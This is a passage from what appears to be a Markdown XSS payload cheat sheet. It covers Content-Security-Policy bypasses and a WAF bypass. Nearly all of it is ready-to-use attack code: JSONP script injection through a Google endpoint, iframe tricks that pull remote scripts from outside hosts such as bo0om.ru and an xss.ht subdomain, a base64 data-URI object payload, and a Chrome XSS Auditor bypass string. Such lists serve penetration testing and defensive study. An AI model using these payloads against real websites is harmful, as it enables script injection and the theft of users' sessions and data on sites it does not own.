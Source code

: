 Check the CSP on [https://csp-evaluator.withgoogle.com](https://csp-evaluator.withgoogle.com) and the post : [How to use Google’s CSP Evaluator to bypass CSP](https://blog.thomasorlita.cz/vulns/google-csp-evaluator/)

### Bypass CSP using JSONP from Google (Trick by [@apfeifer27](https://twitter.com/apfeifer27))

//google.com/complete/search?client=chrome&jsonp=alert(1);

```js
<script/src=//google.com/complete/search?client=chrome%26jsonp=alert(1);>"
```

More JSONP endpoints available in [/Intruders/jsonp_endpoint.txt](Intruders/jsonp_endpoint.txt)

### Bypass CSP by [lab.wallarm.com](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa)

Works for CSP like `Content-Security-Policy: default-src 'self' 'unsafe-inline';`, [POC here](http://hsts.pro/csp.php?xss=f=document.createElement%28"iframe"%29;f.id="pwn";f.src="/robots.txt";f.onload=%28%29=>%7Bx=document.createElement%28%27script%27%29;x.src=%27//bo0om.ru/csp.js%27;pwn.contentWindow.document.body.appendChild%28x%29%7D;document.body.appendChild%28f%29;)

```js
script=document.createElement('script');
script.src='//bo0om.ru/csp.js';
window.frames[0].document.head.appendChild(script);
```

### Bypass CSP by [Rhynorater](https://gist.github.com/Rhynorater/311cf3981fda8303d65c27316e69209f)

```js
d=document;f=d.createElement("iframe");f.src=d.querySelector('link[href*=".css"]').href;d.body.append(f);s=d.createElement("script");s.src="https://yoursubdomain.xss.ht";setTimeout(function(){f.contentWindow.document.head.append(s);},1000)
```

### Bypass CSP by [@akita_zen](https://twitter.com/akita_zen)

Works for CSP like `script-src self`

```js
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

## Common WAF Bypass

### Chrome Auditor - 9th august 2018

```javascript
</script><svg><script>alert(1)-%26apos%3B
```
